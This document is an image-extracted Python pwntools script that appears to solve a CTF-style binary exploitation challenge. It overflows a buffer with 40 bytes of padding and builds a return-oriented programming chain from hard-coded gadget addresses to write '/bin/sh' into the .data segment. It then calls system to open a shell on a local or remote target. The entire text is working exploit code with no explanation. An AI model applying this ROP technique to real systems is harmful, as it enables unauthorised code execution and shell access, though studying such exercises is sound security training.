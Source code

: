 ```python
def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
break *0x400890
break *0x400807
continue
'''.format(**locals())

def arbitrary_write(address, data):
    #0x400890: pop r14; pop r15; ret;
    #0x400820: mov qword ptr [r14], r15; ret;
    # pop reg
    # mov to_reg, from_reg
    # address > data > pop r14; pop r15; mov
    pop_regs = 0x400890
    mov_regs = 0x400820
    rop = p64(pop_regs)
    rop += p64(address)
    rop += data
    rop += p64(mov_regs)
    return rop

# [0x00400650]> iS
# Nm Paddr Size Vaddr Memsz Perms Name
# 25 0x00001050 16 0x00601050 16 -rw- .data

#0x400893: pop rdi; ret;

system = 0x4005e0
data_segment = 0x601050
pop_rdi = 0x400893

junk = 'A'*40

payload = junk
payload += arbitrary_write(data_segment,"/bin/sh\x00")
payload += p64(pop_rdi)
payload += p64(data_segment)
payload += p64(system)

io = start()
io.recvuntil('> ')
io.sendline(payload)
```